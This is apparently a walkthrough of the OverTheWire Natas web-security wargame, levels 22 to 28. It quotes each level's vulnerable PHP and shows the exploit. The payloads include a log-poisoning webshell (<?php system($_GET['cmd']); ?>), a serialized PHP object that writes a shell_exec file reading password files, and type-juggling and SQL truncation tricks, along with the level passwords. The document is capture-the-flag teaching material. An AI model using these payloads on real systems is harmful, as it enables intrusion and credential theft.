> function print_credentials() { /* {{{ */
>     if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
>       print "You are an admin. The credentials for the next level are:<br>";
>       print "<pre>Username: natas22\n";
>       print "Password: <censored></pre>";
>     } else {
>       print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.";
>     }
> }
> /* }}} */
> 
> session_start();
> print_credentials();
> 
> ?>
> ```

The code starts a session and checks if the user is an admin. If they are, it prints the credentials for the next level. If not, it prompts the user to log in as an admin. A user is considered an admin if the `admin` key in the `$_SESSION` array is set to 1.

Let's check http://natas21-experimenter.natas.labs.overthewire.org/, we login with the same credentials as natas21.


The page shows a form that changes the appeareance of a text element (background color, alignment, and font size).  
The following is the source code:
```php
<?php

session_start();

// if update was submitted, store it
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
        $_SESSION[$key] = $val;
    }
}

if(array_key_exists("debug", $_GET)) {
    print "[DEBUG] Session contents:<br>";
    print_r($_SESSION);
}

// only allow these keys
$validkeys = array("align" => "center", "fontsize" => "100%", "bgcolor" => "yellow");
$form = "";

$form .= '<form action="index.php" method="POST">';
foreach($validkeys as $key => $defval) {
    $val = $defval;
    if(array_key_exists($key, $_SESSION)) {
        $val = $_SESSION[$key];
    } else {
        $_SESSION[$key] = $val;
    }
    $form .= "$key: <input name='$key' value='$val' /><br>";
}
$form .= '<input type="submit" name="submit" value="Update" />';
$form .= '</form>';

$style = "background-color: ".$_SESSION["bgcolor"]."; text-align: ".$_SESSION["align"]."; font-size: ".$_SESSION["fontsize"].";";
$example = "<div style='$style'>Hello world!</div>";

?>

<p>Example:</p>
<?=$example?>

<p>Change example values here:</p>
<?=$form?>
```

The code starts a session and checks if the `submit` parameter is set in the request. If it is, it updates the session with the values from the request.
It then defines a list of valid keys and their default values. The form is generated with the valid keys and their values from the session. If a key is not set in the session, it uses the default value. This prevents the user from setting arbitrary keys in the session, like `admin=1`.

If we check the code, the only two lines where session variables are set are in the first foreach, where the `$_SESSION` array is updated with the values from the request, and in the second foreach, where the valid keys are set to their values from the session or their default values. So the only way I see to set the `admin` key in the session is to make the first foreach loop set the `admin` key to 1 and make it iterate long enough to allow us to use the session on the other page. This can be done by adding `admin=1` at the beginning of the body of the request, and then add a lot of other parameters. An important detail is that the PHPSESSID we use on the main page must be the same as the one we use on the experimenter page.


Immediately after sending the request, we refresh the main page and we can see that the session is now set to admin:


Password: d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz

## Natas 23

> The page shows this form:  
>   
> Wow a lot of stuff!  
> The source code is:
> ```php
> <?php
> session_start();
> 
> if(array_key_exists("revelio", $_GET)) {
>     // only admins can reveal the password
>     if(!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
>       header("Location: /");
>     }
> }
> ?>
> 
> 
> <?php
>     if(array_key_exists("revelio", $_GET)) {
>       print "You are an admin. The credentials for the next level are:<br>";
>       print "<pre>Username: natas23\n";
>       print "Password: <censored></pre>";
>     }
> ?>
> ```

The code starts a session and checks if the `revelio` parameter is set in the request. If it is, it checks if the user is an admin. If not, it redirects to the main page. If the user is an admin, it prints the credentials for the next level.

There is no robots.txt file. There are no hidden tips in the page.

By looking on https://www.php.net/manual/en/function.header.php we can see that the `header` function is used to send a raw HTTP header to the client. But there is an issue with the code: it doesn't call `exit` after the `header` function, which means that the rest of the code will still be executed. So we simply have to intercept the request with Burp, send it to repeater, send the request and check the output page avoiding rediraction:


Password: dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs

## Natas 24

> The page shows this form:  
>   
> The source code is:  
> ```php
> <?php
>     if(array_key_exists("passwd",$_REQUEST)){
>         if(strstr($_REQUEST["passwd"],"iloveyou") && ($_REQUEST["passwd"] > 10 )){
>             echo "<br>The credentials for the next level are:<br>";
>             echo "<pre>Username: natas24 Password: <censored></pre>";
>         }
>         else{
>             echo "<br>Wrong!<br>";
>         }
>     }
>     // morla / 10111
> ?>
> ```

The code checks if the `passwd` parameter is set in the request. If it is, it uses `strstr` to check if the password contains the string "iloveyou" and checks if `$_REQUEST["passwd"]` is greater than 10. If both conditions are met, it prints the credentials for the next level. If not, it prints "Wrong!". `strstr` is a PHP function that returns the portion of the string starting from the first occurrence of the specified substring. If the substring is not found, it returns false.  
Now the question is, what happens when we compare a string with an integer?  
When a string is compared with an integer, PHP will try to convert the string to an integer. If the string starts with a number, it will be converted to that number. If it doesn't start with a number, it will be converted to 0.  
So if we send a request with `passwd=iloveyou`, the string will be converted to 0, which is not greater than 10, so the condition will be false.  
If we send a request with `passwd=10iloveyou`, the string will be converted to 10, which is equal to 10, so the condition will be false again.  
If we send a request with `passwd=11iloveyou`, the string will be converted to 11, which is greater than 10, so the condition will be true and we will get the credentials for the next level.



Password: MeuqmfJ8DDKuTr5pcvzFKSwlxedZYEWd

## Natas 25

> The page shows this form:  
>   
> The source code is:  
> ```php
> <?php
>     if(array_key_exists("passwd",$_REQUEST)){
>         if(!strcmp($_REQUEST["passwd"],"<censored>")){
>             echo "<br>The credentials for the next level are:<br>";
>             echo "<pre>Username: natas25 Password: <censored></pre>";
>         }
>         else{
>             echo "<br>Wrong!<br>";
>         }
>     }
>     // morla / 10111
> ?>  
> ```

As the source code shows, to get the credentials for the next level we have to make `strcmp($_REQUEST["passwd"],"<censored>")` return 0 (the two strings are the same) or NULL (error). Let's look for strcmp weird behaviours. At https://www.php.net/manual/en/function.strcmp.php we understand how the function works and we also see some weird behaviours, in the `User Contributed Notes` section.


Based on the image, sending an array as input might be the key to bypassing the strcmp check, let's try it:


Password: ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws

## Natas 26

> The page shows this:  
>   
> ```php
> <?php
>     // cheers and <3 to malvina
>     // - morla
> 
>     function setLanguage(){
>         /* language setup */
>         if(array_key_exists("lang",$_REQUEST))
>             if(safeinclude("language/" . $_REQUEST["lang"] ))
>                 return 1;
>         safeinclude("language/en"); 
>     }
>     
>     function safeinclude($filename){
>         // check for directory traversal
>         if(strstr($filename,"../")){
>             logRequest("Directory traversal attempt! fixing request.");
>             $filename=str_replace("../","",$filename);
>         }
>         // dont let ppl steal our passwords
>         if(strstr($filename,"natas_webpass")){
>             logRequest("Illegal file access detected! Aborting!");
>             exit(-1);
>         }
>         // add more checks...
> 
>         if (file_exists($filename)) { 
>             include($filename);
>             return 1;
>         }
>         return 0;
>     }
>     
>     function listFiles($path){
>         $listoffiles=array();
>         if ($handle = opendir($path))
>             while (false !== ($file = readdir($handle)))
>                 if ($file != "." && $file != "..")
>                     $listoffiles[]=$file;
>         
>         closedir($handle);
>         return $listoffiles;
>     } 
>     
>     function logRequest($message){
>         $log="[". date("d.m.Y H::i:s",time()) ."]";
>         $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
>         $log=$log . " \"" . $message ."\"\n"; 
>         $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
>         fwrite($fd,$log);
>         fclose($fd);
>     }
> ?>
> 
> <h1>natas25</h1>
> <div id="content">
> <div align="right">
> <form>
> <select name='lang' onchange='this.form.submit()'>
> <option>language</option>
> <?php foreach(listFiles("language/") as $f) echo "<option>$f</option>"; ?>
> </select>
> </form>
> </div>
> 
> <?php  
>     session_start();
>     setLanguage();
>     
>     echo "<h2>$__GREETING</h2>";
>     echo "<p align=\"justify\">$__MSG";
>     echo "<div align=\"right\"><h6>$__FOOTER</h6><div>";
> ?>

The page displays a long text and gives us the option to change the language (en or de) using a dropdown menu.
The source code shows that the `setLanguage` function is called, which includes a language file based on the `lang` parameter in the request. The `safeinclude` function checks for directory traversal attempts (using `../`) and illegal file access (specifically looking for `natas_webpass`), and includes the specified file if it exists. The `listFiles` function lists all files in the `language/` directory, which are then displayed in the dropdown menu.

Even though the `safeinclude` function provides some level of protection against directory traversal, it is still possible to exploit it by using `....//` instead of `../`. This is because the `strstr` function only checks for the exact string `../`, and does not account for variations in the number of dots or slashes. Let's try to read the logs by setting `lang=....//logs/natas25_sessionId.log` in the request. We can get the session ID from the cookies.


Now if we check the `logRequest` function, we can see that it we have complete control on the `user_agent` field. This means we can craft our own user agent string to include an executable php code that will be executed when the log file is read. The php code will be `<?php system($_GET['cmd']); ?>`, which allows us to execute arbitrary commands on the server. We will pass the arbitrary command in the query string by setting `cmd` in the URL. Let's try it.


Password: cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE

## Natas 27

> The page shows this:  
> 
> The source code is:  
> ```php
> <?php
>     // sry, this is ugly as hell.
>     // cheers kaliman ;)
>     // - morla
> 
>     class Logger{
>         private $logFile;
>         private $initMsg;
>         private $exitMsg;
> 
>         function __construct($file){
>             // initialise variables
>             $this->initMsg="#--session started--#\n";
>             $this->exitMsg="#--session end--#\n";
>             $this->logFile = "/tmp/natas26_" . $file . ".log";
> 
>             // write initial message
>             $fd=fopen($this->logFile,"a+");
>             fwrite($fd,$this->initMsg);
>             fclose($fd);
>         }
> 
>         function log($msg){
>             $fd=fopen($this->logFile,"a+");
>             fwrite($fd,$msg."\n");
>             fclose($fd);
>         }
> 
>         function __destruct(){
>             // write exit message
>             $fd=fopen($this->logFile,"a+");
>             fwrite($fd,$this->exitMsg);
>             fclose($fd);
>         }
>     }
> 
>     function showImage($filename){
>         if(file_exists($filename))
>             echo "";
>     }
> 
>     function drawImage($filename){
>         $img=imagecreatetruecolor(400,300);
>         drawFromUserdata($img);
>         imagepng($img,$filename);
>         imagedestroy($img);
>     }
> 
>     function drawFromUserdata($img){
>         if( array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
>             array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
> 
>             $color=imagecolorallocate($img,0xff,0x12,0x1c);
>             imageline($img,$_GET["x1"], $_GET["y1"],
>                             $_GET["x2"], $_GET["y2"], $color);
>         }
> 
>         if (array_key_exists("drawing", $_COOKIE)){
>             $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
>             if($drawing)
>                 foreach($drawing as $object)
>                     if( array_key_exists("x1", $object) &&
>                         array_key_exists("y1", $object) &&
>                         array_key_exists("x2", $object) &&
>                         array_key_exists("y2", $object)){
> 
>                         $color=imagecolorallocate($img,0xff,0x12,0x1c);
>                         imageline($img,$object["x1"],$object["y1"],
>                                 $object["x2"] ,$object["y2"] ,$color);
> 
>                     }
>         }
>     }
> 
>     function storeData(){
>         $new_object=array();
> 
>         if(array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
>             array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
>             $new_object["x1"]=$_GET["x1"];
>             $new_object["y1"]=$_GET["y1"];
>             $new_object["x2"]=$_GET["x2"];
>             $new_object["y2"]=$_GET["y2"];
>         }
> 
>         if (array_key_exists("drawing", $_COOKIE)){
>             $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
>         }
>         else{
>             // create new array
>             $drawing=array();
>         }
> 
>         $drawing[]=$new_object;
>         setcookie("drawing",base64_encode(serialize($drawing)));
>     }
> ?>
> 
> <h1>natas26</h1>
> <div id="content">
> 
> Draw a line:<br>
> <form name="input" method="get">
> X1<input type="text" name="x1" size=2>
> Y1<input type="text" name="y1" size=2>
> X2<input type="text" name="x2" size=2>
> Y2<input type="text" name="y2" size=2>
> <input type="submit" value="DRAW!">
> </form>
> 
> <?php
>     session_start();
> 
>     if (array_key_exists("drawing", $_COOKIE) ||
>         (   array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
>             array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET))){
>         $imgfile="img/natas26_" . session_id() .".png";
>         drawImage($imgfile);
>         showImage($imgfile);
>         storeData();
>     }
> 
> ?>

The form allows us to draw a line from a point at (x1, y1) to a point at (x2, y2).

In the code we can see that the function `drawFromUserdata()` unserializes the drawing data from the cookie. The draws that we make through the form are serialized and stored in the cookie. If the cookie contains a serialized object, and this object then get unserialized, the object will be instantiated, and a `__wakeup()` function (if it exists) will be called, followed by a `__destruct()` function call if the object is no longer in use.  
When an attacker controls a serialized object that is passed into unserialize(), he can control the properties of the created object. This will then allow him to hijack the flow of the application, by controlling the values passed into automatically executed methods like `__wakeup()` or `__destruct()`.  
In our code the Logger class implements the `__destruct()` function, so maybe we can use that to get the password for the next level. The `__destruct()` function writes the exit message to the log file. What if the log file is a php file that we can access (and run), and the exit message is a php command that prints the content of `/etc/natas_webpass/natas27`? From the website's normal behaviour we know that we can access files in `http://natas26.natas.labs.overthewire.org/img/`.  
Let's serialize an object of the Logger class and set `logFile` to `/var/www/natas/natas26/img/pippoBaudo.php` and `exitMsg` to `<?php echo shell_exec('cat /etc/natas_webpass/natas27'); ?>`.

```php
class Logger{
    private $logFile = "/var/www/natas/natas26/img/pippoBaudo.php";
    private $exitMsg = "<?php echo shell_exec('cat /etc/natas_webpass/natas27'); ?>";
}

$logger = new Logger();
echo base64_encode(serialize($logger));
```

We get this string:  `Tzo2OiJMb2dnZXIiOjI6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czo0MToiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvcGlwcG9CYXVkby5waHAiO3M6MTU6IgBMb2dnZXIAZXhpdE1zZyI7czo1OToiPD9waHAgZWNobyBzaGVsbF9leGVjKCdjYXQgL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4iO30=`

Now we put that string in our `drawing` cookie and request the main page. This will execute the Logger class's __destruct() method, which will write the exit message to the log file. Now we just have to request `http://natas26.natas.labs.overthewire.org/img/pippoBaudo.php` to execute the php code and get the password:


Password: u3RRffXjysjgwFU6b9xa23i6prmUsYne

# natas28

> The page shows this form:  
>   
> The source code is:  
> ```php
> <?php
> 
> // morla / 10111
> // database gets cleared every 5 min
> 
> /*
> CREATE TABLE `users` (
>   `username` varchar(64) DEFAULT NULL,
>   `password` varchar(64) DEFAULT NULL
> );
> */
> 
> 
> function checkCredentials($link,$usr,$pass){
> 
>     $user=mysqli_real_escape_string($link, $usr);
>     $password=mysqli_real_escape_string($link, $pass);
> 
>     $query = "SELECT username from users where username='$user' and password='$password' ";
>     $res = mysqli_query($link, $query);
>     if(mysqli_num_rows($res) > 0){
>         return True;
>     }
>     return False;
> }
> 
> 
> function validUser($link,$usr){
> 
>     $user=mysqli_real_escape_string($link, $usr);
> 
>     $query = "SELECT * from users where username='$user'";
>     $res = mysqli_query($link, $query);
>     if($res) {
>         if(mysqli_num_rows($res) > 0) {
>             return True;
>         }
>     }
>     return False;
> }
> 
> 
> function dumpData($link,$usr){
> 
>     $user=mysqli_real_escape_string($link, trim($usr));
> 
>     $query = "SELECT * from users where username='$user'";
>     $res = mysqli_query($link, $query);
>     if($res) {
>         if(mysqli_num_rows($res) > 0) {
>             while ($row = mysqli_fetch_assoc($res)) {
>                 // thanks to Gobo for reporting this bug!
>                 //return print_r($row);
>                 return print_r($row,true);
>             }
>         }
>     }
>     return False;
> }
> 
> 
> function createUser($link, $usr, $pass){
> 
>     if($usr != trim($usr)) {
>         echo "Go away hacker";
>         return False;
>     }
>     $user=mysqli_real_escape_string($link, substr($usr, 0, 64));
>     $password=mysqli_real_escape_string($link, substr($pass, 0, 64));
> 
>     $query = "INSERT INTO users (username,password) values ('$user','$password')";
>     $res = mysqli_query($link, $query);
>     if(mysqli_affected_rows($link) > 0){
>         return True;
>     }
>     return False;
> }
> 
> 
> if(array_key_exists("username", $_REQUEST) and array_key_exists("password", $_REQUEST)) {
>     $link = mysqli_connect('localhost', 'natas27', '<censored>');
>     mysqli_select_db($link, 'natas27');
> 
> 
>     if(validUser($link,$_REQUEST["username"])) {
>         //user exists, check creds
>         if(checkCredentials($link,$_REQUEST["username"],$_REQUEST["password"])){
>             echo "Welcome " . htmlentities($_REQUEST["username"]) . "!<br>";
>             echo "Here is your data:<br>";
>             $data=dumpData($link,$_REQUEST["username"]);
>             print htmlentities($data);
>         }
>         else{
>             echo "Wrong password for user: " . htmlentities($_REQUEST["username"]) . "<br>";
>         }
>     }
>     else {
>         //user doesn't exist
>         if(createUser($link,$_REQUEST["username"],$_REQUEST["password"])){
>             echo "User " . htmlentities($_REQUEST["username"]) . " was created!";
>         }
>     }
> 
>     mysqli_close($link);
> } else {
> ?>
> ```

The code checks if the username and password fields are set in the request. If they are, it connects to the MySQL database, selects the appropriate database (natas27), and then checks if the username corresponds to a valid user using `validUser()`. If the user is valid, it checks the credentials using `checkCredentials()`. If the credentials are correct, it displays a welcome message and the user's data using `dumpData()`. If the credentials are incorrect, it displays an error message. If the user does not exist, it creates a new user using `createUser()`.

The `validUser()` function calls `mysqli_real_escape_string()` to sanitize the username input. The sanitized username is then used in the SQL query to look up the user in the database. If the user exists, the function returns True. If the user does not exist, it returns false.

The `checkCredentials()` function works similarly, sanitizing both the username and password inputs before using them in the SQL query. If the credentials are valid, it returns True; otherwise, it returns false.

The `dumpData()` function retrieves and displays the user's data from the database. It sanitizes the username input and uses it in the SQL query to fetch the user's information. If the user exists, it returns the data in a human-readable format using `print_r()`. If the user does not exist, it returns false.

The `createUser()` function is responsible for creating a new user in the database. It first checks if the username has leading or trailing whitespace and rejects any such attempts, returning False. It then sanitizes the username and password inputs before using them in the SQL query to insert the new user into the database. If the user is successfully created, it returns True; otherwise, it returns false.

SQLI is not possible due to the use of prepared statements and input sanitization. There are some ways to bypass `mysqli_real_escape_string()`, but is seems like this is not the case.  
If we look closely at the code, we can see that the input sanitization is not consistently applied across all functions:
- `checkCredentials()` and `validUser()` use only `mysqli_real_escape_string()`. 
- `dumpData()` and `createUser()` functions, on the other hand, use a combination of `mysqli_real_escape_string()` and additional checks to ensure the input is safe. 
- `dumpData()` trims whitespace from the username input using `trim()`.
- `createUser()` checks for leading and trailing whitespace before creating a new user. It also limits the length of the username and password to 64 characters (limit set in `CREATE TABLE` statement) using `substr()`.

The trim checks look only for whitespace characters that are in the beginning and end of the string, but not in the middle. So for example "test   H" would be considered valid input.  
After a bit of thinking I realized that this could be exploited by creating a user with a username like "natas28 + 57 spaces or null values + H", the last character is random, and password "test" (choose whatever you want). This would pass the `validUser()` check, returning false, and it would also pass the trim check in `createUser()`, allowing the user to be created successfully. BUT, since the username is truncated to 64 characters, the actual username stored in the database would be "natas28 + 57 spaces or null values", without the last character. For how Mysql manages null values and trailing or leading whitespace (they are ignored when creating an entry), the created user would effectively have "natas28" as username, successfully creating a duplicate user.  
Now if we login with username "natas28" and password "123", we would be able to access the account of the original user. Why? Because:
- since we just created a user with username "natas28" and password "123", the `checkCredentials()` function would return true.
- Then `dumpData()` would retrieve the data for the original user "natas28". This because it queries only with the username, and gets the first entry.


 

Password: 1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj